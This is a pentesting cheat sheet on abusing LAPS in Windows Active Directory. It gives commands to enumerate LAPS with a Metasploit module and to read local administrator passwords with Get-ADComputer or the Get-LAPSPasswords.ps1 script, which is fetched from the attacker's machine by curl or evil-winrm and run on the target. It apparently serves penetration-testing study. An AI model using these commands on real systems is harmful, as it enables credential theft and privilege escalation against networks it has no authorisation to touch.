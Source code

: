 ```yaml
---
title: Local Administrator Password Solution (LAPS) Pentesting
desc: 
tags: [Active Directory, LAPS, PrivEsc, Privilege, Windows]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Metasploit**

    ```sh
    msfconsole
    use post/windows/gather/credentials/enum_laps
    set session 2
    exploit
    ```

<br />

## 2. Exploit

1. **Obtain Administrator's Password**

    1. **Check if You Are in the LAPS_Readers Group**

        ```powershell
        net user <current-username>
        # Global Group memberships  *LAPS_Readers
        ```

    - **Use Get-ADComputer**

        **Get-ADComputer** gets the information of the Active Directory computer.

        ```powershell
        Get-ADComputer -Identity '<active-directory-computer-name>' -property 'ms-mcs-admpwd'
        ```

    - **Use Get-LAPSPasswords.ps1**

        1. **Download the Payload in Local Machine**

            If you are in LAPS_Readers, you can get the administrator's password using **[Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1){:target="_blank"}**.

            ```sh
            wget https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1
            ```

        2. **Transfer the Payload to Target Machine**

            - **via PowerShell**

                First off, open web server in local machine.

                ```sh
                python3 -m http.server 8000
                ```

                Then curl in target machine

                ```powershell
                curl http://<local-ip>:8000/Get-LAPSPasswords.ps1 -o .\Get-LAPSPasswords.ps1
                ```

            - **via Evil-WinRM**

                If you connect the remote Windows machine with Evil-WinRM, you can use directly by adding **-s** flag when connecting.

                ```powershell
                evil-winrm -i <target-ip> -u username -p password -s /path/to/current/directory
                ```

                Then just execute the payload in evil-winrm console.

                ```powershell
                PS > upload .\Get-LAPSPasswords.ps1 c:\Users\<username>\Desktop\Get-LAPSPasswords.ps1
                ```

        3. **Execute the Payload in Target Machine**

            ```powershell
            .\Get-LAPSPasswords.ps1
            ```